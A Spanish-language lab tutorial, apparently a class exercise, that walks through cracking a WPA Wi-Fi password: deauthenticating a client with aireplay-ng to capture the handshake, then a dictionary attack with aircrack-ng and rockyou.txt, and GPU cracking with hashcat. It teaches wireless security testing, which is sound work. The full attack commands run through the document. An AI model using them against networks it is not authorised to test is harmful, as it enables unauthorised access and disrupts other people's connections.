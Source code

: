 # hack-wifi WPA

Si usamos el cifrado WPA es totalmente seguro a los ataques recibidos? Vamos a intentar romper la clave de una red wifi con cifrado WPA. No pongas contraseña muy larga para este práctica, vas a tardar bastante en descifrarla.

![refresca la página para cargar el imágen](imagen/wpa0.png)

Para empezar abrimos el terminal y los 4º primeros pasos son iguales que [Hackear wifi wep](https://nswhuei.github.io/hack-wifi/ActividadRQ3.1).


![refresca la página para cargar el imágen](imagen/wpa1.png)

Empezamos a capturar los paquetes de la red wifi, para descifrar la clave del wpa necesitamos un paquete especial: "**handshake**". Para ello necesitamos que algún equipo de la red se conecte de nuevo, podemos esperar o usar el comando **airepaly** para desconectar un equipo de la red.
>aireplay-ng -0 2 -a 24:7F:20:02:63:B6 -c F8:87:F1:BD:76:24 wlan1mon

```-0``` El código de empezar el ataque de "Deautenticación". [Aireplay](https://www.aircrack-ng.org/doku.php?id=es:aireplay-ng)

```-a``` El bssid del router

```-c``` El bssid del equipo que vas a desconectar

![refresca la página para cargar el imágen](imagen/wpa12.png)

Una vez conseguido el paquete handshake ya podemos empezar a descifrar la clave. Para ello necesitamos un diccionario y en kali lleva por defecto uno, lo vamos a descomprimir con el siguiente comando.
>gzip -d /usr/share/wordlists/rockyou.txt.gz

Y empezamos a descifrar la clave.
>aircrack-ng -a2 -b 24:7F:20:02:63:B6 -w /usr/share/wordlists/rockyou.txt ./*.cap

```-a2``` El cifrado de WPA.

```-b``` El bssid del router

```-w``` La ruta del diccionario.

Y esperamos a que se descifre la clave. 

![refresca la página para cargar el imágen](imagen/wpa4.png)

Ya he conseguido la clave de la red wifi cifrado por wpa.

Además de descifrar con el **CPU** podemos usar nuestro **GPU** para descifrar claves con el comando **hashcat**.Para ello necesitas tener instalado el driver de tu **GPU**.

![refresca la página para cargar el imágen](imagen/hashcat1.png)

Necesitamos cambiar el formato de los archivos .cap por hccap con el comando:
>aircrack-ng ./#origen -J ./#destino

```-J``` Crear archivos hccap.

![refresca la página para cargar el imágen](imagen/hashcat12.png)
>hashcat -m 2500 ./06.hccap /#el diccionario.

```-m``` El código del método de cifrado:
![refresca la página para cargar el imágen](imagen/hashcat3.png)

